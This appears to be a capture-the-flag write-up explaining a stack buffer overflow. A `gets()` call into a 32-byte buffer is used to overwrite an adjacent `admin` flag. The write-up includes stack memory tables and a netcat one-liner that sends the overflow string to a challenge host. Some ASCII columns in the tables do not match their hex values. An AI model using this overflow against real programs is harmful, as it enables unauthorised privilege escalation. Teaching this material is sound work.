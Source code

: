 
## Writeup

The source [file](../src/vuln.c) contain two variables located on the stack; `name` and `admin`.
`name` is the 32-bytes sized input buffer we are writing into with the vulnerable function `gets()`.
`admin` is our overflow target variable which we want to overwrite with any other value than `"\0"` as input.

The following is a depiction of the stack:

|  Mem.Addr./Variables |  Hex-values (8 bytes/row) |      Ascii Characters    |
|---------------------:|:-------------------------:|:------------------------:|
|                  rip |  00 7f fd 13 76 d6 ff 00  |   .  .  ý  .  v  Ö  ÿ  . |
|                  rbp |  00 7f ff f1 37 6d 88 00  |   .  .  ÿ  ñ  7  m  .  . |
|  &admin / &name + 40 |  00 00 00 00 00 00 00 00  |  \0 \0 \0 \0 \0 \0 \0 \0 |
| padding / &name + 32 |  00 00 00 00 00 00 00 00  |  \0 \0 \0 \0 \0 \0 \0 \0 |
|           &name + 24 |  02 00 00 00 00 00 00 00  |   . \0 \0 \0 \0 \0 \0 \0 |
|           &name + 16 |  ff fb 8b 1f 00 00 00 00  |   Ù  E  æ  J  ü  .  .  . |
|           &name +  8 |  d9 45 e6 4a fc 7f 00 00  |  \0  E \0  J \0 \0 \0 \0 |
|           &name      |  64 00 00 00 00 00 00 00  |   d \0 \0 \0 \0 \0 \0 \0 |

Therefore, we need to input at least 41 characters where the 41st one is not `"\0"`, e.g.
```bash
echo "0000111122223333444455556666777788889999aaaa<non-zero-bytes>" | nc <host> 9001
```

And this will edit the above table into:

|  Mem.Addr./Variables |  Hex-values (8 bytes/row) |     Ascii Characters     |
|---------------------:|:-------------------------:|:------------------------:|
|                  rip |  00 7f fd 13 76 d6 ff 00  |   .  .  ý  .  v  Ö  ÿ  . |
|                  rbp |  00 7f ff f1 37 6d 88 00  |   .  .  ÿ  ñ  7  m  .  . |
|  &admin / &name + 40 |  00 00 00 00  {non-zero}  |  \0 \0 \0 \0  {non-zero} |
| padding / &name + 32 |  00 00 00 00 00 00 00 00  |  \0 \0 \0 \0 \0 \0 \0 \0 |
|           &name + 24 |  37 37 37 37 36 36 36 36  |   7  7  7  7  6  6  6  6 |
|           &name + 16 |  35 35 35 35 34 34 34 34  |   5  5  5  5  4  4  4  4 |
|           &name +  8 |  33 33 33 33 32 32 32 32  |   3  3  3  3  2  2  2  2 |
|           &name      |  31 31 31 31 30 30 30 30  |   1  1  1  1  0  0  0  0 |

Compile and run this test [file](dump.c) for a more code and output explanation.

